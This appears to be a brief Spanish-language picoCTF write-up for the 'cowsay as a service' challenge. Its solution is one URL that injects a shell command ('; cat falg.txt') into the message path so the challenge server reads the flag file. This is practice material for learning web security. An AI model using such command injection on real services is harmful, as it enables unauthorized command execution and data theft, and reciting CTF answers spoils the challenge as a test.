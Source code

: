 ## Objetivo

Now presenting [cowsay as a service](https://caas.mars.picoctf.net)

## Datos de Acceso al Nivel

[cowsay as a service](https://caas.mars.picoctf.net)
## Solucion

```
https://caas.mars.picoctf.net/cowsay/%7Bmessage%7D;%20cat%20falg.txt
```

## Notas Adicionales



## Referencias
